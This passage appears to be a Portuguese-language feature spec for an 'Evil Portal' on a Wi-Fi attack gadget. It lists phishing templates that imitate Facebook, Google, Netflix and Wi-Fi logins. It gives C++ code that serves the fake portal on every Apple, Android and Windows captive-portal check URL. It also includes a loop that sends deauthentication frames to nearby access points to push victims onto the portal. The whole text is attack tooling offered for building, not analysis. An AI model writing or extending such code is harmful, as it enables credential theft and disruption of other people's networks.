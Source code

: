 
## 5. Evil Portal Enhancements

### 5.1 Multiple Templates
**Templates pré-configurados:**
```
/sd/portals/
├── portal_facebook.html
├── portal_google.html
├── portal_netflix.html
├── portal_wifi.html
└── portal_custom.html
```

### 5.2 Captive Portal Endpoints
**Auto-redirect em múltiplos sistemas:**

```cpp
const char* captive_endpoints[] = {
    "/hotspot-detect.html",         // Apple
    "/library/test/success.html",   // Apple iOS
    "/success.txt",                 // Apple iOS 8+
    "/generate_204",                // Android
    "/gen_204",                     // Android
    "/ncsi.txt",                    // Windows
    "/connecttest.txt",             // Windows
    "/redirect",                    // Windows
};

// Auto-serve portal em todos endpoints
for (auto endpoint : captive_endpoints) {
    server.on(endpoint, HTTP_GET, [](AsyncWebServerRequest *request){
        request->send(200, "text/html", index_html);
    });
}
```

### 5.3 Deauth Integration
**Opcional:** Deauth APs próximos para forçar conexão

```cpp
void runEvilPortalWithDeauth() {
    // Iniciar portal
    startEvilPortal();
    
    // Loop deauth
    while (portal_active) {
        for (auto& ap : nearby_aps) {
            sendDeauth(ap.bssid, broadcast_mac);
        }
        delay(5000);
    }
}
```

---